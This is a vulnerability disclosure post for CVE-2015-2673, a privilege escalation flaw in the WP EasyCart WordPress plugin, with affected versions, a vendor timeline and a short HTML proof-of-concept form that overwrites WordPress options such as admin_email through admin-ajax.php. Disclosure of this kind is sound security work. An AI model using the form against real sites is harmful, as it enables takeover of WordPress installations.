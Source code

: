 ```yaml
---
layout: single
title: WP EasyCart Privilege Escalation Information Disclosure
date: 2015-02-26
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - wp-easycart
  - privilege escalation
---
```

Due to a lack of validation in the `ec_ajax_update_option` and `ec_ajax_clear_all_taxrates` functions located in `/inc/admin/admin_ajax_functions.php`, it is possible to update any WordPress option as an authenticated non-admin user, which can in turn lead to privilege escalation and remote code execution.

## CVE-ID
[CVE-2015-2673](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2673)

## WPVDB-ID
[7808](https://wpvulndb.com/vulnerabilities/7808)

## Versions Affected
All versions from 1.1.30 to 3.0.20

## Metasploit Module
[http://www.rapid7.com/db/modules/auxiliary/admin/http/wp\_easycart\_privilege\_escalation](http://www.rapid7.com/db/modules/auxiliary/admin/http/wp_easycart_privilege_escalation)

## Proof of Concept
Set the `option_name` and `option_value` fields in the below markup to the option and value you wish to update. For a full list of possible options, see the official [Option Reference](http://codex.wordpress.org/Option_Reference) page.

```xml
<form action="http://wordpress_installation_path_here/wp-admin/admin-ajax.php?action=ec_ajax_update_option" method="post">
    <input type="hidden" name="option_name" value="admin_email" />
    <input type="hidden" name="option_value" value="newaddress@somedomain.com" />
    <button type="submit">Submit</button>
</form>
```

## Disclosure Timeline
* **2015-02-22:** Discovered vulnerability and contacted vendor to disclose
* **2015-02-23:** Acknowledgement from vendor, ETA of 24-48 hours for patch
* **2015-02-23:** Contacted vendor again to disclose same vulnerability in another function (`ec_ajax_clear_all_taxrates`)
* **2015-02-24:** Vendor confirmed issues have been patched and is releasing update shortly
* **2015-02-25:** Version 3.0.20 released by vendor
* **2015-02-25:** Contacted vendor again to let them know the patch did not resolve the issue and it is still exploitable
* **2015-02-25:** Vendor released new update to resolve issues
* **2015-02-25:** CVE-ID requested
* **2015-02-26:** Public disclosure
